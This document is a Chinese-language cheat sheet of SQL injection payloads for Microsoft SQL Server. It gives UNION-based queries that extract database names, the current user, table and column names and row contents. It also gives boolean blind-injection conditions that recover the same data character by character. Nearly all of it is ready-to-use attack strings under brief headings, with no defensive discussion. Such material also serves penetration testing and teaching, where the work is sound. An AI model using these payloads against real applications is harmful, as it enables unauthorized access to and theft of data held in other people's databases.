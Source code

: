 ### 联合查询注入

#### 判断列数方法

```mssql
UNION ALL SELECT NULL,NULL,NULL
UNION ALL SELECT '1','2','3'
ORDER BY ...
```

#### 获取当前数据库名

```mssql
UNION ALL SELECT NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(DB_NAME() AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)
```

#### 获取当前用户名

```mssql
UNION ALL SELECT NULL,NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(SYSTEM_USER AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)
```

#### 获取所有数据库名

```mssql
UNION ALL SELECT NULL,NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62) FROM master..sysdatabases
```

#### 获取所有表名

```mssql
UNION ALL SELECT NULL,NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(table_schema+CHAR(42)+table_name AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62) FROM information_schema.tables WHERE table_catalog=CHAR(数据库名ascii码)+CHAR(数据库名ascii码)
```

#### 获取所有字段名

```mssql
UNION ALL SELECT NULL,NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(数据库名..syscolumns.name AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62) FROM 数据库名..syscolumns,数据库名..sysobjects WHERE 数据库名..syscolumns.id=数据库名..sysobjects.id AND 数据库名..sysobjects.name=CHAR(表名ASCII码)+CHAR(表名ASCII码)
```

#### 获取数据内容

```mssql
UNION ALL SELECT NULL,NULL,CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+CHAR(60)+ISNULL(CAST(字段名 AS NVARCHAR(4000)),CHAR(32))+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62)+CHAR(62) FROM 数据库名.表名
```

------

### 盲注

#### 1.布尔盲注

##### 判断数据库数量

```mssql
and (select count(*) from master..sysdatabases)=10
```

##### 判断数据库名长度

```mssql
and (select top 1 len(name) from master..sysdatabases where name not in (select top 第x个数据库 name from master..sysdatabases))=长度值
```

##### 判断数据库名

```mssql
and ascii(substring((select top 1 name from master..sysdatabases where name not in (select top 第n个数据库 name from master..sysdatabases)),第x位,1)) = ascii码
```

##### 判断表数量

```mssql
and (select count(*) from bugtest..sysobjects where xtype='U')=5
and (select count(table_name) from information_schema.tables where table_catalog='数据库名')=5
```

##### 判断表名长度

```mssql
and (select top 1 len(name) from 数据库名..sysobjects where xtype='U' and name not in 
(select top 第x个表 name from 数据库名..sysobjects where xtype='U'))=7
```

##### 判断表名

```mssql
and (select substring((select top 1 name from 数据库名..sysobjects where xtype='U'
and name not in (select top 第x个表 name from 数据库名..sysobjects where xtype='U')),第x位,1))=CHAR(ascii码)
```

##### 判断字段数量

```mssql
and (select count(*) from 数据库名..syscolumns where id=object_id('表名'))=3
```

##### 判断字段名长度

```mssql
and (select top 1 len(name) from 数据库名..syscolumns where id=object_id('表名') and name not in (select top 第x个字段 name from 数据库名..syscolumns where id=object_id('表名'))
)=2
```

##### 判断字段名

```mssql
and (select substring((select top 1 name from 数据库名..syscolumns 
where id=object_id('表名') and name not in 
(select top 第x个字段 name from 数据库名..syscolumns where id=object_id('表名'))),第x位,1))=CHAR(ascii码)
```

##### 判断数据数量

```mssql
and (select count(*) from 数据库名..表名) = 2 
```

##### 判断数据长度

```mssql
and (select top 1 len(字段名) from bugtest..content where id not in (select top 第x条数据 id from 数据库名..表名))=5
```

##### 判断数据内容

```mssql
and (select substring((select top 1 CAST(字段名 as char) from content where id not in(select top 0 id from 数据库名..表名)),第x位数据,1))=CHAR(ascii码)
```

